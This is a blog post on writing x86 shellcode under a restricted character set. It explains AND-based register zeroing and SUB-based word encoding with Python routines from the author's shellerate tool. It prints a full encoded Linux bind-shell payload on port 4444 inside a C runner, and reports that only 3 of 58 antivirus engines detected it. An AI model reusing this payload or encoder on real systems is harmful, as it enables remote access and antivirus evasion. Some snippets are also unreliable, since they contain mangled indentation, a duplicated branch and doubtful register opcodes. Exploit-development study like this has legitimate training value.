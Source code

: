 ```yaml
---
layout: post
title: "A tale of a restricted charset shellcode generation"
image: assets/images/ancient_writing.jpg
bootstrap: true
tags: [offensive security, shellcode, asm, x86, python, shellerate]
categories: [ ]
author: thesp0nge
---
```


During my OSCE exam preparation I had to deal with shellcode writing experience
where very few allower characters were available.

This brilliant talk by [@muts](https://twitter.com/muts), lead us to get in
touch with a new encoding technique. When you can't directly write words on the
stack, due to bad characters, you can eventually let a register to contained
the desired word and then push the register into the stack.

{% include youtube.html id="gHISpAZiAm0" %}

As you can see from the video taken at Defcon 16, the code exploits the fact
that after the shellcode it has been written into the stack, very close to the
encoded payload, the execution flow continues until the decoded shellcode it
has been found.

Boom.

All the magic happens in two different pieces.

## Init a register to 0

We can't use XOR to init a register to zero. So we use math here and some
AND property to apply to reset all bits in our register.

On
[shellerate](https://github.com/thesp0nge/shellerate/blob/master/shellerate/asm_x86.py)
I created a zero\_with\_and routine. The basic idea is to get a random 32 bits
value, calculating its NOT and then build the shellcode. When the register it
has been put in AND with those two values, it will be set to zero.

{%highlight python%}
  def zero_with_and(reg="eax", badchar=[]):

  while True:
    first_and = secrets.token_hex(4)
    n_b = bin(int(first_and, 16))
    n_b_2 = bit_not(int(n_b, 2), 32)
    if n_b_2 > 0:
      break

  second_and = format(n_b_2, 'x').zfill(8)

  logging.debug("First AND: %s" % first_and)
  logging.debug("Second AND: %s" % second_and)

  first_and_hex = strings.from_string_to_payload(strings.swap(first_and))
  second_and_hex = strings.from_string_to_payload(strings.swap(second_and))

  if reg == "eax":
    return "\\x25"+first_and_hex+"\\x25"+second_and_hex

  if reg == "ebx":
    return "\\xb1\\xe3"+first_and_hex+"\\xb1\\xe3"+second_and_hex
  if reg == "ebx":
    return "\\xb1\\xe3"+first_and_hex+"\\xb1\\xe3"+second_and_hex
  if reg == "ecx":
    return "\\xb1\\xe1"+first_and_hex+"\\xb1\\xe1"+second_and_hex
  if reg == "edx":
    return "\\xb1\\xe2"+first_and_hex+"\\xb1\\xe2"+second_and_hex
{%endhighlight%}

## Writing a word on the stack
We can't write a word on the stack because of a restricted alphabet. We will
get rid of this by calculating the
[two-complement](https://en.wikipedia.org/wiki/Two%27s_complement) of the word
we want to write and by finding 2 or 3 values that when added will result in
our word's complement.

Those values will be subtracted from EAX register, after it has been set to 0.
At the end, EAX will be set to the desired word and it can be pushed into the
stack.

{% highlight python %}
  def generate_add_eax_sum_shellcode(result):
  compl_two = int("FFFFFFFF", 16) - int(result, 16) + 1

  c = find_encoded_sequence(compl_two)
  c2_h = "0x{:08x}".format(compl_two)
  f = ["".join(["{:02x}".format(j) for j in list(i)]) for i in zip(*c[::-1])]
  f_sum = "0x{:08x}".format(sum([int(i, 16) for i in f]) % (2**32))

  if (c2_h != f_sum):
    logging.warning("can't find a good encoded sequence using 2 operands... trying with 3")
    c = find_encoded_sequence(compl_two, True)
    f = ["".join(["{:02x}".format(j) for j in list(i)]) for i in zip(*c[::-1])]
    f_sum = "0x{:08x}".format(sum([int(i, 16) for i in f]) % (2**32))

    if(c2_h != f_sum):
      logging.error("can't find a good encoded sequence. Please consider changing this shellcode sequence" + result)
      return ""

  logging.debug("obtaining 0x{0} with this ASM sequence".format(result))
  for i in ("554e4d4a", "2a313235"):
    logging.debug("AND EAX, 0x{0}".format(i))
  for j in f:
    logging.debug("SUB EAX, 0x{0}".format(j))
  logging.debug("PUSH EAX")

  shellcode = asm_x86.zero_with_and("eax")
  for i in f:
    shellcode += "\\x2d" + strings.from_string_to_payload(strings.swap(i))
  shellcode+="\\x50"

  return shellcode
{%endhighlight%}


The whole generate.py source code is available on this gist.

{% gist 8daae5ae9656779b75a479e72f2a4492 %}

## Put all the pieces together with shellerate

This can be a really good shellcode encoding mechanism. That's why I automated
this process and integrated it with
[shellerate](https://github.com/thesp0nge/shellerate/tree/master/shellerate).

I asked my framework to generate a bind shell shellcode for Linux operating
system. The shell will listen on port 4444 for incoming connections.

Than I padded my shellcode, since I want to operate on 4 bytes long words and I
splitted my shellcode into words.

I encoded all the words using a restricted allowed charset alphabet and I
eventually appended a jump ESP call in order to use my shellcode in a C helper
like this:

{% highlight C %}
#include<stdio.h>
#include<string.h>

unsigned char code[]="\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x54\x58\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x2d\x02\x01\x01\x01\x2d\x7e\x6e\x6e\x6e\x50\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x2d\x32\x01\x01\x36\x2d\x7e\x01\x75\x7e\x2d\x7e\x4c\x7e\x7e\x50\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x2d\x31\x01\x01\x01\x2d\x6e\x4e\x01\x4f\x2d\x7e\x7e\x34\x7e\x50\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x2d\x31\x31\x31\x01\x2d\x6d\x65\x60\x75\x50\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x2d\x31\x31\x31\x52\x2d\x5c\x66\x66\x7e\x50\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x2d\x32\x31\x52\x52\x2d\x7e\x66\x7e\x7e\x50\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x2d\x09\x01\x50\x01\x2d\x7e\x05\x7e\x3e\x50\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x2d\x43\x01\x01\x38\x2d\x7e\x31\x7e\x7e\x50\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x2d\x02\x01\x01\x01\x2d\x7e\x4f\x01\x01\x2d\x7e\x7e\x3d\x4d\x50\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x2d\x01\x50\x01\x01\x2d\x3c\x7e\x35\x4d\x50\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x2d\x31\x35\x01\x01\x2d\x6f\x7e\x01\x01\x2d\x7e\x7e\x7c\x74\x50\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x2d\x36\x01\x31\x01\x2d\x7e\x01\x6f\x01\x2d\x7e\x73\x7e\x73\x50\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x2d\x01\x02\x01\x01\x2d\x31\x7e\x31\x01\x2d\x62\x7e\x7c\x74\x50\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x2d\x51\x01\x31\x01\x2d\x7e\x3e\x68\x46\x50\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x2d\x01\x02\x36\x01\x2d\x31\x7e\x7e\x01\x2d\x63\x7e\x7e\x7c\x50\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x2d\x51\x01\x31\x01\x2d\x7e\x3e\x68\x46\x50\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x2d\x01\x01\x50\x01\x2d\x32\x7e\x7e\x35\x50\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x2d\x01\x31\x01\x01\x2d\x01\x6f\x01\x70\x2d\x75\x7e\x4a\x7e\x50\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x2d\x01\x01\x01\x01\x2d\x31\x31\x31\x7e\x2d\x72\x67\x63\x7e\x50\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x2d\x31\x31\x31\x70\x2d\x7e\x68\x66\x7e\x50\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x2d\x01\x02\x01\x01\x2d\x31\x7e\x4f\x01\x2d\x65\x7e\x7e\x34\x50\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x2d\x51\x01\x31\x01\x2d\x7e\x3e\x68\x46\x50\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x2d\x01\x01\x01\x01\x2d\x32\x7e\x75\x3b\x50\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x2d\x01\x01\x01\x02\x2d\x01\x7e\x01\x7e\x2d\x4b\x7e\x4c\x7e\x50\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x2d\x01\x01\x01\x02\x2d\x31\x01\x31\x7e\x2d\x68\x45\x66\x7e\x50\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x2d\x01\x01\x01\x01\x2d\x76\x3d\x75\x3c\x50\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x2d\x51\x01\x01\x01\x2d\x7e\x3e\x75\x3b\x50\xff\xe4";

int main(int argc, char **argv)
{
	printf("Shellcode Length:  %d\n", strlen(code));
	int (*ret)() = (int(*)())code;
	ret();
}
{% endhighlight %}

Please note that I wrote my shellcode in a reverse order, from the last word to
the first. This way, since the stack is growing backwards, the ESP register
will point to the beginning of my decoded shellcode at the end of the process.

You can see the process in action here. As you can see, the shellcode is
working and a bind shellcode was listening on port 4444.

{% asciicast 241806 %}

What about anti virus tool then? I submitted my a.out file to Virus Total and
only 3 engines out of 58 detected my encoded shellcode: [pretty sweet
result](https://www.virustotal.com/gui/file/5045aee367cc29a8fcf4889c0935f039ed76550cb0f1ba743f9d20b9d2f1dc99/detection).

## Off by one

Next steps will be:
* implementing this encoder into shellerate and release a new version of the
  framework (with a working shellerate binary script of course)
* make the AND process to use random values, so to increase shellcode entropy
* having fun with other register mathematical instructions so to encode with
  ADD, MUL, DIV, ...
